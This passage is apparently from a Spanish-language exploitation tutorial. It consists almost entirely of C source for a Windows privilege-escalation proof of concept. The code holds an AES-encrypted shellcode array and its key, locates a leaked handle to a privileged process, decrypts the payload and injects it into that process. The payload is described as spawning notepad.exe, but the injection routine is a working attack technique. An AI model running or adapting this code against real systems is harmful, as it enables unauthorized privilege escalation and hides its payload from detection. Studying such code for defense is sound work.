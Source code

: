 ```c
			WaitForSingleObject(hThread, -1);
			CloseHandle(hThread);
			return 0;
	}
	else
		return -1;
}

int main(int argc, char **argv) {
	
	int pid = 0;
	HANDLE hProc = NULL;

	// AES encrypted shellcode spawning notepad.exe (ExitThread)
	char key[] = { 0x49, 0xbc, 0xa5, 0x1d, 0xa7, 0x3d, 0xd6, 0x0, 0xee, 0x2, 0x29, 0x3e, 0x9b, 0xb2, 0x8a, 0x69 };
	unsigned char payload[] = { 0x6b, 0x98, 0xe8, 0x38, 0xaf, 0x82, 0xdc, 0xd4, 0xda, 0x57, 0x15, 0x48, 0x2f, 0xf0, 0x4e, 0xd3, 0x1a, 0x70, 0x6d, 0xbf, 0x53, 0xa8, 0xcb, 0xbb, 0xbb, 0x38, 0xf6, 0x4e, 0xee, 0x84, 0x36, 0xe5, 0x25, 0x76, 0xce, 0xb0, 0xf6, 0x39, 0x22, 0x76, 0x36, 0x3c, 0xe1, 0x13, 0x18, 0x9d, 0xb1, 0x6e, 0x0, 0x55, 0x8a, 0x4f, 0xb8, 0x2d, 0xe7, 0x6f, 0x91, 0xa8, 0x79, 0x4e, 0x34, 0x88, 0x24, 0x61, 0xa4, 0xcf, 0x70, 0xdb, 0xef, 0x25, 0x96, 0x65, 0x76, 0x7, 0xe7, 0x53, 0x9, 0xbf, 0x2d, 0x92, 0x25, 0x4e, 0x30, 0xa, 0xe7, 0x69, 0xaf, 0xf7, 0x32, 0xa6, 0x98, 0xd3, 0xbe, 0x2b, 0x8, 0x90, 0x0, 0x9e, 0x3f, 0x58, 0xed, 0x21, 0x69, 0xcb, 0x38, 0x5d, 0x5e, 0x68, 0x5e, 0xb9, 0xd6, 0xc5, 0x92, 0xd1, 0xaf, 0xa2, 0x5d, 0x16, 0x23, 0x48, 0xbc, 0xdd, 0x2a, 0x9f, 0x3c, 0x22, 0xdb, 0x19, 0x24, 0xdf, 0x86, 0x4a, 0xa2, 0xa0, 0x8f, 0x1a, 0xe, 0xd6, 0xb7, 0xd2, 0x6c, 0x6d, 0x90, 0x55, 0x3e, 0x7d, 0x9b, 0x69, 0x87, 0xad, 0xd7, 0x5c, 0xf3, 0x1, 0x7c, 0x93, 0x1d, 0xaa, 0x40, 0xf, 0x15, 0x48, 0x5b, 0xad, 0x6, 0xb5, 0xe5, 0xb9, 0x92, 0xae, 0x9b, 0xdb, 0x9a, 0x9b, 0x4e, 0x44, 0x45, 0xdb, 0x9f, 0x28, 0x90, 0x9e, 0x63, 0x23, 0xf2, 0xca, 0xab, 0xa7, 0x68, 0xbc, 0x31, 0xb4, 0xf9, 0xbb, 0x73, 0xd4, 0x56, 0x94, 0x2c, 0x63, 0x47, 0x21, 0x84, 0xa2, 0xb6, 0x91, 0x23, 0x8f, 0xa0, 0x46, 0x76, 0xff, 0x3f, 0x75, 0xd, 0x51, 0xc5, 0x70, 0x26, 0x1, 0xcf, 0x23, 0xbf, 0x97, 0xb2, 0x8d, 0x66, 0x35, 0xc8, 0xe3, 0x2, 0xf6, 0xbd, 0x44, 0x83, 0xf2, 0x80, 0x4c, 0xd0, 0x7d, 0xa3, 0xbd, 0x33, 0x8e, 0xe8, 0x6, 0xbc, 0xdc, 0xff, 0xe0, 0x96, 0xd9, 0xdc, 0x87, 0x2a, 0x81, 0xf3, 0x53, 0x37, 0x16, 0x3a, 0xcc, 0x3c, 0x34, 0x4, 0x9c, 0xc6, 0xbb, 0x12, 0x72, 0xf3, 0xa3, 0x94, 0x5d, 0x19, 0x43, 0x56, 0xa8, 0xba, 0x2a, 0x1d, 0x12, 0xeb, 0xd2, 0x6e, 0x79, 0x65, 0x2a };
	unsigned int payload_len = sizeof(payload);

	printf("My PID: %d\n", GetCurrentProcessId());
	getchar();
	
	// find a leaked handle to a process
	hProc = GetVulnProcHandle();
	
	if ( hProc != NULL) {
		
		// d#Decrypt payload
		AESDecrypt((char *) payload, payload_len, key, sizeof(key));
		printf("[+] Sending gift...");
		// Inject and run the payload in the privileged context
		Inject(hProc, payload, payload_len);
		printf("done.\n");
	}
	getchar();

    return 0;
}
```
### Ejemplo de explotación 2
